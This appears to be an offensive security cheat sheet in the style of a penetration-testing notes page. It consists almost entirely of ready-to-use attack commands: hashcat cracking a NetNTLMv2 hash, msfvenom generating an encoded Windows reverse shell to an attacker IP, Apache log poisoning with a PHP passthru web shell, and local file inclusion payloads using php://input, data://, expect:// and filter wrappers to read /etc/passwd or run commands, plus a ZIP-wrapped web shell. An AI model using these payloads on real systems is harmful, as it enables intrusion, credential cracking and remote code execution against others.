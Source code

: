 ```bash
hashcat -m5600 'spotless::WS01:1122334455667788:26872b3197acf1da493228ac1a54c67c:010100000000000078b063fbcce8d4012c90747792a3cbca0000000008003000300000000000000001000000002000006402330e5e71fb781eef13937448bf8b0d8bc9e2e6a1e1122fd9d690fa9178c50a0010000000000000000000000000000000000009001a0057005300300031005c00730070006f0074006c006500730073000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```

### Generating Payload with msfvenom
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

### Compiling Code From Linux
```bash
# Windows
i686-w64-mingw32-gcc source.c -lws2_32 -o out.exe

# Linux
gcc -m32|-m64 -o output source.c
```

### Compiling Assembly from Windows
```bash
# https://www.nasm.us/pub/nasm/releasebuilds/?C=M;O=D
nasm -f win64 .\hello.asm -o .\hello.obj

# http://www.godevtool.com/Golink.zip
GoLink.exe -o .\hello.exe .\hello.obj
```

### Local File Inclusion to Shell
```bash
nc 192.168.1.102 80
GET /<?php passthru($_GET['cmd']); ?> HTTP/1.1
Host: 192.168.1.102
Connection: close

# Then send as cmd payload via http://192.168.1.102/index.php?page=../../../../../var/log/apache2/access.log&cmd=id
```

### Local File Inclusion: Reading Files
```bash
file:///etc/passwd

http://example.com/index.php?page=php://input&cmd=ls
    POST: <?php system($_GET['cmd']); ?>
http://192.168.2.237/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input
    POST: <?php system('uname -a');die(); ?>

expect://whoami
http://example.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/index.php?page=php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd
http://example.net/?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4=&cmd=id
http://10.1.1.1/index.php?page=data://text/plain,%3C?php%20system%28%22uname%20-a%22%29;%20?%3E

# ZIP Wrapper
echo "<pre><?php system($_GET['cmd']); ?></pre>" > payload.php;  
zip payload.zip payload.php;   
```